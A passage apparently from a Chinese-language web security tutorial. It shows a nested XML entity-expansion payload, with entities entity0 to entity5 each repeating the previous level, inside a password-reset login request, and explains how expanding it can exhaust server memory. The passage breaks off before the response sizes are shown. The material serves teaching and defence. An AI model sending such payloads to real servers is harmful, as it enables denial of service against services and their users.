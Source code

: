 ```

<!DOCTYPE test [

<!ENTITY entity0 "Level0-">

<!ENTITY entity1 "Level1-&entity0;">

<!ENTITY entity2 "Level2-&entity1;&entity1;">

<!ENTITY entity3 "Level3-&entity2;&entity2;&entity2;">

<!ENTITY entity4 "Level4-&entity3;&entity3;&entity3;&entity3;">

<!ENTITY entity5 "Level5-&entity4;&entity4;&entity4;&entity4;&entity4;">

]>

<reset><login>&entity0;</login><secret>Any bugs?</secret></reset>

```

![](img/00163.jpeg)

在这里，你可以看到当加载`entity5`时会发生什么。所有其他实体也将被加载。这些信息在服务器内存中存储，因此如果你发送足够大的有效负载或足够深的递归，可能会导致服务器内存耗尽，无法响应用户的请求。

现在让我们看看在加载`entity5`时响应的大小会如何变化：
